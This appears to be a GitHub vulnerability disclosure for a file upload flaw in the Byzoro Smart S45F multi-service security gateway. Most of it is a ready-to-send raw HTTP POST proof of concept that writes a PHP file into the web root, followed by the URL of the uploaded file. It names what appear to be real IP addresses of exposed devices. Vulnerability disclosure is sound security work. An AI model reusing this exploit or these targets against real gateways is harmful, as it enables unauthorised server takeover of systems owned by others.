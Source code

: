 ![image](https://github.com/llixixi/cve/assets/144869546/6d97f339-31c9-4e23-a890-bf8592d390d2)Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet. Byzro Networks Smart S45F multi-service security gateway intelligent management platform has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official：https://www.byzoro.com/

version: S45

Vulnerability Path ：/Tool/uploadfile.php

Ip：https://103.121.164.62:8443/
poc:
```
POST /Tool/uploadfile.php? HTTP/1.1
Host: 113.140.35.82:8443
Cookie: PHPSESSID=25c62fc086a2f7777b8e0dd04d2a75d1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------886123294864872782496578758
Content-Length: 391
Origin: https://113.140.35.82:8443
Referer: https://113.140.35.82:8443/Tool/uploadfile.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="file_upload"; filename="phpinfo.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------886123294864872782496578758
Content-Disposition: form-data; name="txt_path"

/usr/hddocs/nsg/home/2.php
-----------------------------886123294864872782496578758—

```
https://103.121.164.62:8443/home/2.php
<img width="600" alt="image" src="https://github.com/llixixi/cve/assets/144869546/735c2c0d-04e3-44ef-99f4-12c0f6eac15b">


